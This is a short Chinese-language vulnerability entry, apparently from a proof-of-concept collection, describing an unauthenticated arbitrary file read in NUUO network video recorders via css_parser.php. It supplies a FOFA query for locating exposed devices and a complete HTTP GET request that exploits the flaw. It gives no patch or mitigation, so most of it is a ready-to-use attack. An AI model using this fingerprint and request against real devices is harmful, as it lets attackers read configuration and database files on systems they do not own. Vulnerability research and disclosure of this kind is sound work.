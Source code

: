 # NUUO网络视频录像机css_parser.php任意文件读取漏洞

NUUO网络视频录像机 css_parser.php 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="www.nuuo.com/eHelpdesk.php"
```

## poc

```javascript
GET /css_parser.php?css=css_parser.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![image-20240911095835420](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409110958603.png)